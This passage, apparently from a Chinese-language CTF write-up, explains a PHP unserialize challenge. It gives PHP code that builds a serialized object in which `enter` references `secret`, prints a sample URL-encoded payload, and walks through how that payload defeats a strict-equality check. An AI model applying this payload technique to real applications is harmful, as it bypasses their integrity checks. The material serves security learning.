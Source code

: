     ![引用 1](./images/ser15.png) (代码)
    *   **利用:** 构造序列化字符串，让 `enter` 属性引用 `secret` 属性。这样无论 `secret` 被如何修改，`enter` 都会跟着改变，保持严格相等。
        ```php
        <?php
        class A {
            public $enter;
            public $secret;
        }
        $a = new A();
        // 让 enter 引用 secret
        $a->enter = &$a->secret; 
        // 设置一个初始值，包含会被替换的 '*'
        $a->secret = 'initial*value'; 
        
        $payload = serialize($a);
        // 示例 payload (实际索引可能不同): O:1:"A":2:{s:5:"enter";R:2;s:6:"secret";s:14:"initial*value";}
        echo urlencode($payload);
        ?>
        ```
        当服务器接收到这个 payload:
        1. `*` 被替换为 `\*`: `O:1:"A":2:{s:5:"enter";R:2;s:6:"secret";s:15:"initial\*value";}`
        2. 反序列化: 创建 A 对象，`secret` 为 "initial\*value"，`enter` 指向 `secret`。
        3. `$obj->secret = "*"`: `secret` 被改为 `*`。由于 `enter` 引用 `secret`，`enter` 也变为 `*`。
        4. `if ($obj->enter === $obj->secret)`: 判断为 `true`。